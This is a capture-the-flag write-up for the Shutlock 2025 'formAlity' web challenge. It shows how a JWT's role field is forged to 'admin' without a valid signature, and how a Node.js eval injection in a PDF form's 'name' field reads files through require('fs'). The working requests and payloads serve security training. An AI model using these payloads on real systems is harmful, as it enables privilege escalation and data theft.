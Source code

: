 # formAlity - Shutlock 2025

> Bienvenue sur un site du Festival de Cannes.
>
> Sur ce site vous pourrez retrouver un sondage cinématographique. Vous pourrez aussi vous rapprocher d'un administrateur afin qu'il puisse vous générer un justificatif de présence.

## bypass admin role

`POST http://57.128.112.118:13237/register` with `username` and `password` gives token as cookie

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzUwNzA3OTg5ODMwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwXzE1XzcpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzcuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzUwNzA3OTkwfQ.6pRarYQOqP3uhEd1EaV0-AslpUCkU4QvLQfKX1BPa9o
```

```json
{"auth":1750707989830,"agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36","role":"user","iat":1750707990}
```

when we go to `http://57.128.112.118:13237/name_form`, we see that our role is `user` as shown in the jwt.
let's try to update our role to `admin` by simply changing the `role` in the JWT token.

```javascript
>>> btoa(`{"auth":1750707989830,"agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36","role":"admin","iat":1750707990}`);
eyJhdXRoIjoxNzUwNzA3OTg5ODMwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwXzE1XzcpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzcuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc1MDcwNzk5MH0
```

let's use the new payload

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzUwNzA3OTg5ODMwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwXzE1XzcpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzcuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc1MDcwNzk5MH0.6pRarYQOqP3uhEd1EaV0-AslpUCkU4QvLQfKX1BPa9o
```

let's reload and pray...

![alt text](images/shutlock2025_formAlity_certificate_page.png)

boom it works! classic but effective.

## certificate pdf

running a classic request looks like this

```
curl 'http://57.128.112.118:13237/submit_name' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -b 'token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzUwNzA3OTg5ODMwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwXzE1XzcpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzcuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc1MDcwNzk5MH0.6pRarYQOqP3uhEd1EaV0-AslpUCkU4QvLQfKX1BPa9o' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36' \
  --data-raw "name=hello&surname=world" -o file.pdf && open file.pdf
```

![alt text](images/shutlock2025_formAlity_certificate_demo.png)

after a bit of tweaking, I found that `name` is somehow `eval`ued by doing `name=Boolean(false)`

![alt text](images/shutlock2025_formAlity_certificate_eval.png)

see, `Boolean` is completely ignored, it is actually called and shows its output (which is `false`), let's try to use `fs` module!

```
name=require('fs').readdirSync('.').toString()
```

![alt text](images/shutlock2025_formAlity_certificate_directory.png)

we can see a `flag.txt` file, let's read it!

```
name=require('fs').readFileSync('flag.txt').toString()
```

![alt text](images/shutlock2025_formAlity_certificate_flag.png)

boom, `SHLK{JwT_bYpaS5_2_RCe}` is our flag.
